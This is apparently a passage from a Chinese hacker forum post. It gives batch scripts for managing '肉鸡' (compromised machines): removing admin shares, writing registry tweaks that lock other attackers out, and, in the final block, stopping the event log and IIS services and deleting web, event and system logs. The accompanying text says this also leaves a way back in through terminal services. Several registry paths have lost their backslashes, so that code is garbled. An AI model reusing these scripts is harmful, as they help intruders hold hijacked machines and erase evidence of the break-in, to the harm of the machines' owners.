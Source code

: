 echo.
echo example：
echo If locak disklable are C: D: E: X: Y: Z: ，you should chang the command into ：
echo delshare c d e x y z ipc admin print
echo.
echo *** you can delete nine shares once in a useing ***
echo.
echo ------------------------------------------------------
goto :EOF
:END
echo.
echo ------------------------------------------------------
echo.
echo OK,delshare.bat has deleted all the share you assigned.
echo.Any questions ,feel free to mail toEx4rch@hotmail.com.
echo
echo.
echo ------------------------------------------------------
echo.
:EOF
echo end of the batch file
------------------------ cut here then save as .bat or .cmd file ---------------------------
2.全面加固系统（给肉鸡打补丁）的批处理文件
------------------------ cut here then save as .bat or .cmd file ---------------------------
@echo Windows Registry Editor Version 5.00 >patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServiceslanmanserverparameters] >>patch.dll
@echo "AutoShareServer"=dword:00000000 >>patch.dll
@echo "AutoShareWks"=dword:00000000 >>patch.dll
@REM [禁止共享]
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlLsa] >>patch.dll
@echo "restrictanonymous"=dword:00000001 >>patch.dll
@REM [禁止匿名登录]
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesNetBTParameters] >>patch.dll
@echo "SMBDeviceEnabled"=dword:00000000 >>patch.dll
@REM [禁止及文件访问和打印共享]
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServices@REMoteRegistry] >>patch.dll
@echo "Start"=dword:00000004 >>patch.dll
@echo [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesSchedule] >>patch.dll
@echo "Start"=dword:00000004 >>patch.dll
@echo [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWinlogon] >>patch.dll
@echo "ShutdownWithoutLogon"="0" >>patch.dll
@REM [禁止登录前关机]
@echo "DontDisplayLastUserName"="1" >>patch.dll
@REM [禁止显示前一个登录用户名称]
@regedit /s patch.dll
------------------------ cut here then save as .bat or .cmd file ---------------------------
下面命令是清除肉鸡所有日志，禁止一些危险的服务，并修改肉鸡的terminnal service留跳后路。
@regedit /s patch.dll
@net stop w3svc
@net stop event log
@del c:winntsystem32logfilesw3svc1*.* /f /q
@del c:winntsystem32logfilesw3svc2*.* /f /q
@del c:winntsystem32config*.event /f /q
@del c:winntsystem32dtclog*.* /f /q
@del c:winnt*.txt /f /q
@del c:winnt*.log /f /q
@net start w3svc
@net start event log
@rem [删除日志]
